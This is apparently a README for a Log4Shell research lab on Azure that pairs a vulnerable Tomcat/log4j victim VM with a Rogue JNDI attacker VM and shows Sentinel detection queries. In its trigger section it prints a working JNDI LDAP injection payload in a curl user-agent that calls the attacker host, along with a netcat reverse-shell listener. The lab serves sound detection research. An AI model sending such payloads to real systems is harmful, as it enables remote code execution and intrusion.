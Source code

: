 # Log4Shell Research Lab Environment

[![Deploy to Azure](https://aka.ms/deploytoazurebutton)](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FLinux%2Fdemos%2FCVE-2021-44228-Log4Shell%2Fazuredeploy.json)

## Metadata

* **Author:** [Roberto Rodriguez (@Cyb3rWard0g)](https://twitter.com/Cyb3rWard0g)
* **Deployment time:** 5-10 mins

## Grocery Items

* Microsoft Sentinel
    * Would you like to Bring-Your-Own Microsoft Sentinel?.
    * If so, set the `workspaceId` and `workspaceKey` parameters of your own workspace.
* 2 Linux VMs: `Ubuntu 18.04.6 LTS` - Kernel release: `5.4.0-1059-azure `
    * `UBUNTU5`
        * [Log Analytics Agent for Linux](https://github.com/microsoft/OMS-Agent-for-Linux) installed
        * It connects to the Microsoft Log Analytics workspace defined in the template.
        * [Syslog Data Connector](https://docs.microsoft.com/en-us/azure/sentinel/connect-syslog) enabled
        * Linux Syslog Facilities collected
            * `user`
        * [Sysmon for Linux installed](https://github.com/Sysinternals/SysmonForLinux) (Optional)
            * [Sysmon for Linux installer](https://github.com/OTRF/Blacksmith/blob/master/resources/scripts/bash/Install-Sysmon-For-Linux.sh)
            * [Sysmon configuration](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/sysmon/linux/sysmon.xml)
        * [OMS Auditd Plugin](https://github.com/microsoft/OMS-Auditd-Plugin)(Optional)
        * [Tomcat v8.5.3](https://tomcat.apache.org/)
        * Java Libraries:
            * [javax.servlet-api v4.0.1](https://mvnrepository.com/artifact/javax.servlet/javax.servlet-api/4.0.1)
            * log4j-core ([2.14](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.14.0), [2.15](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.15.0), [2.16](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.16.0))
            * log4j-api ([2.14](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.14.0), [2.15](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.15.0), [2.16](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.16.0))
    * `UBUNTU6`
        * [Rogue JNDI](https://github.com/Cyb3rWard0g/log4jshell-lab/tree/main/attacker/rogue-jndi)

## Validate Environment

### UBUNTU5
SSH to `UBUNTU5` box and make sure the `Tomcat` service is running:

```bash
service tomcat status
```
Depending on what you installed to generate events (`Sysmon` or `OMS Auditd Plugin`):

**Sysmon**

You can check if Sysmon is running.

```
service sysmon status
```

**OMS Auditd**

You can check that the AUOMS service is running and the AUOMS config is active

```
service auoms status

cat /etc/audisp/plugins.d/auoms.conf
```

### UBUNTU6
SSH to `UBUNTU6` box to make sure the `Rogue JNDI` docker container is running:

```bash
docker ps

docker logs --follow rogue-jndi
```

## Trigger CVE-2021-44228 (Example)

* In this scenario, we simulate an adversary that is already on the `VICTIM` server (running the vulnerable application).
    * Another scenario would be an adversary interacting with the `VICTIM` server from an endpoint outside of the organization's network.
* The attacker uses the log4j [CVE-2021-44228](https://logging.apache.org/log4j/2.x/security.html#CVE-2021-44228) RCE vulnerability to get a reverse shell via netcat.

### UBUNTU6

Start a netcat listener on port `443`:

```
nc -lvnp 443
```

### UBUNTU5

Vulnerable applications were compiled during the deployment of the victim Azure VM.

```bash
curl -X GET -H 'user-agent: ${jndi:ldap://192.168.2.6:1389/o=reference}' 127.0.0.1:8080/Log4j-2.14.0-SNAPSHOT/api
```

## Query Microsoft Sentinel

### Sysmon Logs

```
Syslog 
| where ProcessName == 'sysmon'
| extend EventID = parse_xml(SyslogMessage).Event.System.EventID 
| extend EventData = parse_xml(SyslogMessage).Event.EventData.Data 
| mv-expand bagexpansion=array EventData 
| evaluate bag_unpack(EventData) 
| extend Key=tostring(['@Name']), Value=['#text'] 
| evaluate pivot( 
    Key, any(Value), TimeGenerated, TenantId, SourceSystem, 
    EventID, Computer, Facility, SeverityLevel, HostIP, MG, Type, _ResourceId 
)
```

### OMS Auditd

```
let execve=(){
  Syslog
  | where SyslogMessage has "AUOMS_EXECVE"
  | parse SyslogMessage with "type=" EventType " audit(" * "): " EventData
  | where EventType =~ "AUOMS_EXECVE"
  | project TimeGenerated, EventType, Computer, EventData
  | extend EventData = trim_end('containerid=',EventData)
  | parse kind=regex EventData with * "success=" success " exit=" * "ppid=" ppid "pid=" pid
  "audit_user=" audit_user "auid=" * "user=" user " uid=" uid " group=" * "comm=\"" comm "\" exe=\"" exe
  "\"" * "cwd=\"" cwd "\" name=\"" name "\" (inode|nametype)=" * "(proctitle|cmdline)=" cmdline
  | extend cmdline = trim_end('redactors=.*',cmdline)
};
execve
```

## Additional Features

### Collect Network Traffic via TCPDump

on `UBUNTU5`, open a new ssh session and run the following commands before running the basic test:

```bash
tcpdump -i eth0 -w log4jShell.pcap host 192.168.2.5 and host 192.168.2.6
```

You can then copy the PCAP from your Azure VM to your local endpoint:

```bash
scp user@x.x.x.x:/home/user/log4jShell.pcap C:\Users\YOU\Downloads\
```

Open the PCAP in [Wireshark](https://www.wireshark.org/):

![](../../../../resources/images/log4jshell-trigger-rce-basicjar-reverseshell-pcap.png)

**Security Datasets - PCAP**: [https://securitydatasets.com/notebooks/atomic/linux/initial_access/SDLIN-211214154100.html](https://securitydatasets.com/notebooks/atomic/linux/initial_access/SDLIN-211214154100.html)

## References
* https://github.com/Cyb3rWard0g/log4jshell-lab